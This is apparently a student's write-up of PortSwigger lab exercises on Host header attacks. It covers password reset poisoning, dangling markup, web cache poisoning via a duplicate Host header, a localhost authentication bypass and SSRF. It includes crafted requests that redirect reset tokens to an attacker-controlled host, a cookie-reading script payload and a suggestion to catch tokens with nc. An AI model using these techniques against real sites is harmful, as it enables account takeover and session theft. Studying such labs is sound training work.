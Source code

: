 all technique that Portswigger teach us, read [here](https://portswigger.net/web-security/host-header/exploiting)

# Password reset poisoning
## general
Note the email is sent to you even tho we changed the `Host header` to point to somewhere else. The plan is we will change host name to a malicious site or the site that we have a control of. The easies way to do this is user the exploit server that the Lab offers.


I then changed host header to ``<original>.com/exploit/` and set it to myself. When I click on it I will send a GET request to the server. On the Access log, I can see that there was a incoming request for `/exploit/forgot-password?temp-forgot-password-token=<token here>`


The goal is change the host header to `<original>.com/exploit/` and change `user=carlos`. Carlos will click on the email and we will then be able to see it on the access log. we will the copy the token and use it to reset carlos password!


Note: If we do ctf, just point it to our `ip:port` and run `nc` listen to that port

## via middleware
```
POST /forgot-password HTTP/1.1
Host: acef1f6f1f685ced80bd5a0d008b0020.web-security-academy.net
X-Forwarded-Host: accd1fba1fc55c3180755a7501740032.web-security-academy.net/exploit
```
same as last task but we cannot use the same trick. This time we are using `X-Forwarded-Host`. How this I find out? just trying out the techniques that PortSwigger mentioned before.. So now when we know that is work by trying on our own account. change `user=carlos` -> check access log for token `/forgot-password?temp-forgot-password-token=wSoizV4lQdJDO84TTnBa6V6cj610GiIT`. Visit it and reset Carlos password!

## via dangling markup
```html
     <script>
            window.addEventListener('DOMContentLoaded', () => {
                for (let el of document.getElementsByClassName('dirty-body')) {
                    el.innerHTML = DOMPurify.sanitize(el.getAttribute('data-dirty'));
                }
            });
        </script>
```

```
POST /forgot-password HTTP/1.1
Host: ac051fe31fa115bd809f1db800380059.web-security-academy.net:'<a href="//ace31ff61f66157680481d3c01e4005d.web-security-academy.net/exploit/
```

```html
<p>Hello!</p><p>Please <a href='https://ac051fe31fa115bd809f1db800380059.web-security-academy.net:'<a href="//ace31ff61f66157680481d3c01e4005d.web-security-academy.net/exploit/?/login'>click here</a> to login with your new password: pUFVxOIq1g</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

no way, I logged into the server with carlos but wasn't done taking note, and do more experiment.... can we redo the lab?

# web cache poisoning
I read in guideline on the PortSwigger, It is not to hard to understand how it works but I learn more when I listen so I youtube a bit on how web cache poisoning works. I couldn't make the extension works so I just try to add different header and end up with `HOST`
```
GET / HTTP/1.1
Host: ac971f5a1fb39ab7807d059500930022.web-security-academy.net
Host: kuro.net
```
an it seem like it works. line 19 in http response
```html
       <script type="text/javascript" src="//kuro.net/resources/js/tracking.js">
```
I try to inject a malicious js code `" <script> alert(document.cookie) </script>` but it didn't work. it end up like this
```html
<script type="text/javascript" src="//" 
    <script> alert(document.cookie) </script>
    /resources/js/tracking.js">
</script>
```
and ofc it didnt work, we even mess up the web. So I was thinking that what if I crate a server which `kurohat.net/resources/js/tracking.js` with the content `alert(document.cookie)` then it should works since the web page will load my malicious page on ``kurohat.net/resources/js/tracking.js`


Instead of using our own website, we can use exploit server that the lab offering instead. create a page `/resources/js/tracking.js` with content `alert(document.cookie)` then click *store*. now copy the link and insert it as our 2nd `host` header. Use repeater to send our request util you get response with `Age: 0`. Try to visit the page, If you get an alert then we are good!!


# Host header authentication bypass
```
This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete Carlos's account. 
```
I assume that the admin page is at `/admin` and luckily I got it right! I send it to *Repeater* I tried to add like `X-Forwarded-For`/ `X-Forwarded-Host: localhost`. but it didnt work. I the just remove the original `host` parameter and replace it with localhost and boom, it work!! Now open it on web browser and click delete Carlos's account -> send it to *burp* and again replace the original host with localhost

# Routing-based SSRF
```
This lab is vulnerable to routing-based SSRF via the Host header. You can exploit this to access an insecure intranet admin panel located on an internal IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos
```
to create payload, run
```zsh
$ python3 -c "for i in range (0,256): print(i);" > subnet.txt
```
I tried, you need Burp PRO (Burp Collaborator) to solve this!

# SSRF via flawed request parsing
Also need, Burp PRO (Burp Collaborator)
